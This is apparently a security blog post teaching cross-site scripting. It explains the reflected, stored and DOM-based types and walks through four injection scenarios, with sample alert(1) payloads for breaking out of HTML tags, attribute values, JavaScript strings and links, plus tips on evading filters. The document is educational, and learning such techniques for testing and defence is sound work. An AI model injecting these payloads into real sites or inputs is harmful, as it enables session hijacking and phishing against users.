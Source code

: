 ```yaml
---
layout: post
title: Cross-site Scripting (XSS)
description: >

tags: [webapp]
---
```


  **Cross-site Scripting (XSS)** is a vulnerability which allows an attacker to execute malicious JavaScripts or html code via input fields on the victim machine to steal session cookies which can be used to hijack the victim account  


## Attacks
- Allows an attacker to: 
 - Steal Session Cookies (Can hijack victim session)
 - Redirect users to malicious sites
 - Perform Phishing Attack
 - Prompt users to download Malwares (embedded within the code)
 - Website Defacement  
## Vectors
- User Input Fields
- HTTP Headers (User-Agent, Referrer etc) 
## Types of Cross-site Scripting (XSS)   
### Reflected Cross-site Scripting (XSS)
  In this type, the user input will be reflected only once. Whenever the user clicks on the link it gets executed. Hence, the malicious script will be executed once on the victim machines
{:.lead}  
### Stored Cross-site Scripting (XSS)
  In this type, the user input will be stored in the database on the same location. Whenever any user visits the injected page, the malicious script will be executed. Hence, the malicious script will be executed to every user whoever visits the injected page on the victim machine
{:.lead}  
### DOM-based Cross-site Scripting (XSS)
 In this type, the user input will be stored on the DOM Parser of the victim machine. Whenever the user visits the injected page, the script which is stored on the DOM Parser will be executed. Hence, the malicious script will be executed on the victim machine. Here the difference is, "It stores the malicious script on the victim browser (DOM Parser)"
{:.lead}  
### How Does it Work? 
Let's have look at different scenarios:

**Scenario 1:**  
Step1: User entered "Hello" to in search box and reflected the input as shown 

![](https://raw.githubusercontent.com/n0tak1dd1y/n0tak1dd13/master/assets/webapp/1.PNG)

Step2: Press "CTRL+U" to see the source code and note the location of User input as shown  

![](https://raw.githubusercontent.com/n0tak1dd1y/n0tak1dd13/master/assets/webapp/2.PNG)

Step3: Enter below payload in search box as shown
 ```js
<svg onload="alert(1)">
``` 
![](https://raw.githubusercontent.com/n0tak1dd1y/n0tak1dd13/master/assets/webapp/3.PNG) 

Step4: Voila!!! got executed  

![](https://raw.githubusercontent.com/n0tak1dd1y/n0tak1dd13/master/assets/webapp/4.PNG)

Step5: Now Press "CTRL+U" to see the how the script is reflected in the source code  

![](https://raw.githubusercontent.com/n0tak1dd1y/n0tak1dd13/master/assets/webapp/5.PNG)

Step6: Note the script is placed between "<p></p>". It shows that we can pass all the tags which has the syntax as "<></>" or "<>"  
For Example: 
~~~html
<script>alert(1)</script>, <a href="javascript:alert(1)">hello</a>
<img src=1 onerror="alert(1)">
~~~
**Scenario 2:** 

Input as
~~~html
<input type=text name="Search" value="books">
~~~

Your search results are : <input type=text name="Search"  value="books">

**Attack**

Input as
~~~html
<input type=text name="Search" value="books"><script>alert(1)</script>">
<input type=text name="Search" value="books" onmouseover="alert(1)">
~~~

Output as

Your search results are :
~~~html
<input type=text name="Search" value="books"><script>alert(1)</script>">
~~~
Once the page loaded script will be executed
~~~html
<input type=text name=" Search" value="books" onmouseover="alert(1)">
~~~
When the user hover the mouse on books, script will be executed. 

These are called eventhandlers which are responsible for executing the function when an appropriate event is occurred. 
Voila!!! Our scripts are executed. 
In the scenario, the payloads can only be framed as shown: 
It should start with either: ">< or " eventhandlers 
These are the only way to fix the syntax with the malicious script. 
**Scenario 3:**

Input as
~~~html
<input type=text name="search" value="books">
~~~
Output as
~~~html
  Var search="books";
  Var search="books";
~~~

**Attack**

Input as
~~~html
<input type=text name="search" value="books";alert(1);//hell">
~~~
Output as
~~~html
   Var search="books";alert(1);//hell";
   Var search="books";alert(1);//hell";
~~~
Voila!!! our payload got executed

Here the logic is payload sits between " in the javascript syntax.

Hence, we need to fix it with javascript syntax.

Only the below shown payload can be used :
~~~html
  ";alert(1)//11
  ";alert(1)//11
~~~
**Scenario 4: Trigger XSS with links**

Input as
~~~html
   <input type=text name="link" value="any url">
~~~
Output as

Your Search results are as : any url 
**Attack**

Input as
~~~html
  <input type=text name="link" value="<a href=javascript:alert(1)">Click here</a>">
~~~
Output as

Your Search results are as :  Click Here 
Voila!!! The script gets executed on clicking the link
The above mentioned payload can be used to bypass many filters in the current scenarios 
There are many ways to use a particular payload, I have just shown few variations to understand how an xss payload can be created or framed.
Depends on the WAF, filters, we need to use different "EvenHandlers, HTML tags" to perform XSS.
Explore as many functions, tags as possible to be effective in XSS along with encoding techniques
